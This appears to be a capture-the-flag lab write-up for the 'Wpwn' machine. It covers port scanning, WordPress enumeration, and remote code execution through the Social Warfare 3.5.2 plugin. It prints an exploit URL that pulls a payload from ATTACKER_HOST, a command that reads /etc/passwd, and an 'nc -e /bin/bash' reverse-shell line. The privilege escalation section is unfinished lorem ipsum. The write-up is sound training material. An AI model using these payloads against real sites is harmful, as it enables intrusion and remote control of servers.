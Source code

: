 ```yaml
---
Alias: Wpwn
Date: 5/5/22
Platform: Linux
Difficulty: Easy
Tags:
Status: Finished
IP: 192.168.127.123
---
```


# {{Wpwn}}


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- nmap
- gobuster

---

# Information Gathering
Scanned all TCP ports:
```bash
rustscan --addresses 192.168.127.123 --ulimit 5000 -- -A -sC -Pn -sV -T 1500
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/brian/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.127.123:22
Open 192.168.127.123:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -sC -Pn -sV -T 1500" on ip 192.168.127.123
Depending on the complexity of the script, results may take some time to appear.
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-18 22:12 PDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:12
Completed NSE at 22:12, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:12
Completed NSE at 22:12, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:12
Completed NSE at 22:12, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 22:12
Completed Parallel DNS resolution of 1 host. at 22:12, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 22:12
Scanning 192.168.127.123 [2 ports]
Discovered open port 22/tcp on 192.168.127.123
Discovered open port 80/tcp on 192.168.127.123
Completed Connect Scan at 22:13, 30.08s elapsed (2 total ports)
Initiating Service scan at 22:13
Scanning 2 services on 192.168.127.123
Completed Service scan at 22:13, 6.33s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.127.123.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 4.41s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.32s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
Nmap scan report for 192.168.127.123
Host is up, received user-set (0.081s latency).
Scanned at 2022-10-18 22:12:51 PDT for 26s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDMeW+2AyVvlr6ePuYubrIG/bVmu/K0Ids1BYbag6YJINa5mbbPE2ATbqsOnKaBhyRSDCpRr7vdn+jAUhuLhf2VogMckwyBgd5/RLDaBTLrvQwE5KidaCHrPElMcuidzcBCoAmK41o/H/w1zdBpM5Fh8ySMr7WMNCDMON00sKoPecMVxWIxzXmfZXBvSdsSk2zJAP6ds+JGduvsFFCGuoIY4A3tLGW1ZQlALkZIt143KvkQrg4rXRjgVbSvryh6a5GJskvGA3QNpUiebqMHC1zXMrjfBoi/SX944LQ0hVLfuXTriH5QkzRhLxkN+K+lvkrGN5RzAqF3IhGIfJcEp7f1
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNe7JLcAbKYhJdELk+ajEn9c68tE7GIr28etvuPibQZZIMFLwM/+Zso6zsYbUOptgjA0+y6YP1geoSoy8CQse9U=
|   256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKZdajYQt+tMB0kowHtm64fUkzCdJbSS1dYaS/bWQrWJ
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.49 seconds

```

Enumerated open TCP ports:
```bash
80
22
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 80 - HTTP (Apache)

#### -Ran Gobuster and found "/wordpress" directory and the following wordpress site webpage. Navigated the webpage and found the below login page:

![](Pasted%20image%2020221018221158.png)

![](Pasted%20image%2020221018221533.png)

![](Pasted%20image%2020221018221609.png)


#### -Ran WPScan and found the following showing plugin "social-warfare version 3.5.2": 

![](Pasted%20image%2020221018221708.png)

#### -Googled "social-warfare 3.5.2 exploit" and found the following ling and navigate to the web page and followed the steps: 
![](Pasted%20image%2020221018221940.png)
![](Pasted%20image%2020221018221808.png)

#### -Made a payload.txt file with the script "<pre>system('cat /etc/passwd')</pre>" inside

#### -Setup a http server to host the payload txt file with "payload.txt"

#### -Input http://WEBSITE/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt instead of listed http://WEBSITE/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt as shown in the wpscan exploit showing previously as the previous weblogin page started with "/wordpress/" directory shown below and received the following webpage finding the user "takis":  

![](Pasted%20image%2020221018222059.png)

![](Pasted%20image%2020221018222141.png)

---

# Exploitation
## Name of the technique
## Social-warfare 3.5.2 unathenticated remote code execution

#### -Typed vim payload.txt and changed the cat etc/passwd script with "<pre>system('nc -e /bin/bash 192.168.49.213 5002')</pre>" and ran penelope listener and received reverse shell: 

![](Pasted%20image%2020221018222630.png)

![](Pasted%20image%2020221018222721.png)

---

# Privilege Escalation
## Local Enumeration

#### -Uploaded and ran linux-smart-enumeration script "lse.sh" and found services  listening on localhost. Typed "ss –nltp" to show all running services/processes running on all ports:

![](Pasted%20image%2020221018223433.png)

![](Pasted%20image%2020221018223516.png)



## Privilege Escalation vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---

